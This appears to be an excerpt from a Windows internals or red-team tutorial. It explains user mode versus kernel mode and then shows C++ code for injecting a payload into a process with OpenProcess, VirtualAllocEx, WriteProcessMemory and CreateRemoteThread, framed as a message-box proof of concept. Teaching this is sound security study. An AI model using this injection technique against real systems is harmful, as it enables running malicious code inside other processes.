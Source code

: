 
| **User mode**                                        | **Kernel Mode**                              |
| ---------------------------------------------------- | -------------------------------------------- |
| No direct hardware access                            | Direct hardware access                       |
| Creates a process in a private virtual address space | Ran in a single shared virtual address space |
| Access to "owned memory locations"                   | Access to entire physical memory             |
Applications started in user mode or **userland** will stay in that mode until a system call is made or interfaced through an API. When a system call is made, the application will switch modes.
When looking at how languages interact with the Win32 API, this process can become further warped, the application will go through the language runtime before going through the API. The most common example is C# executing through the CLR before interacting with the Win32 API and making system calls.

--- 

We will inject a message box into our local process to demonstrate a POC to interact with memory. The steps to write a message box to memory are the following
1. Allocate local process memory for the message box
2. Write/copy the message box to allocated memory
3. Execute the Message box from local process memory
At step one, we can use `OpenProcess` to obtain the handle of the specified process
```cpp
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```
Then we can use `VirtualAllocEx` to allocate a region of memory with the payload buffer
```cpp
remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof payload, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```
Then we can use `WriteProcessMemory` to write to the allocated region of memory
```cpp
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```
And finally, we can use `CreateRemoteThread` to execute our payload from memory
```cpp
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```